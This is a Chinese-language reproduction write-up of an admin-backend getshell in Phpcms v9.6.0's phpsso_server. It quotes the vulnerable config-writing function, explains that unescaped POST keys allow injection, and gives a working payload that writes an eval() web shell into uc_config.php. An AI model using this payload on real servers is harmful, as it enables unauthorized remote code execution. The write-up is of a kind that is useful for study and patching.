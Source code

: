 ```yaml
---
title: Phpcms v9.6.0后台getshell
id: zhfly3075
---
```


# Phpcms v9.6.0后台getshell

## 一、漏洞简介

phpsso_server 后台getshell

## 二、漏洞影响

Phpcms v9.6.0

## 三、复现过程

漏洞来自于ROOTDIR/phpsso_server/phpcms/modules/admin/system.php

```
public function uc() {
        if (isset($_POST['dosubmit'])) {
            $data = isset($_POST['data']) ? $_POST['data'] : '';
            $data['ucuse'] = isset($_POST['ucuse']) && intval($_POST['ucuse']) ? intval($_POST['ucuse']) : 0;
            $filepath = CACHE_PATH.'configs'.DIRECTORY_SEPARATOR.'system.php';
            $config = include $filepath;
            $uc_config = '<?php '."\ndefine('UC_CONNECT', 'mysql');\n";
            foreach ($data as $k => $v) {
                $old[] = "'$k'=>'".(isset($config[$k]) ? $config[$k] : $v)."',";
                $new[] = "'$k'=>'$v',";
                $uc_config .= "define('".strtoupper($k)."', '$v');\n";
            }
            $html = file_get_contents($filepath);
            $html = str_replace($old, $new, $html);
            $uc_config_filepath = CACHE_PATH.'configs'.DIRECTORY_SEPARATOR.'uc_config.php';
            @file_put_contents($uc_config_filepath, $uc_config);
            @file_put_contents($filepath, $html);
            $this->db->insert(array('name'=>'ucenter', 'data'=>array2string($data)), 1,1);
            showmessage(L('operation_success'), HTTP_REFERER);
        }
        $data = array();
        $r = $this->db->get_one(array('name'=>'ucenter'));
        if ($r) {
            $data = string2array($r['data']);
        }
        include $this->admin_tpl('system_uc');
    } 
```

来自这段中的

$data = isset($_POST['data']) ? $_POST['data'] : '';

和

foreach ($data as $k => $v) {
$old[] = "'$k'=>'".(isset($config[$k]) ? $config[$k] : $v)."',";
$new[] = "'$k'=>'$v',";
$uc_config .= "define('".strtoupper($k)."', '$v');\n";
}

这里接收post['data']数据中的key，value并写入配置文件ROOTDIR/phpsso_server/caches/configs/uc_config.php中

在ROOTDIR/phpcms/libs/classes/param.class.php中

```
public function __construct() {
        if(!get_magic_quotes_gpc()) {
            $_POST = new_addslashes($_POST);
            $_GET = new_addslashes($_GET);
            $_REQUEST = new_addslashes($_REQUEST);
            $_COOKIE = new_addslashes($_COOKIE);
        } 
```

全局过滤了post，但是这里只过滤了value，并没有过滤key

![image](../img/a514ff83d09f445b5466dd61a583f6c8.png)

在这个地方，我们可以构造

```
name="data[uc_api','11');/*]" 
```

并在Ucenter api 地址输入:

```
*/eval($_REQUEST[test]);// 
```

再进行缓存更新

![image](../img/95d050568268424b3d445b0c680bfdae.png)

就成功写入了一句话

![image](../img/8ff5796316ea90651c8809933564f136.png)

![image](../img/00340effd9c3ceda99bf9aec30d1429e.png)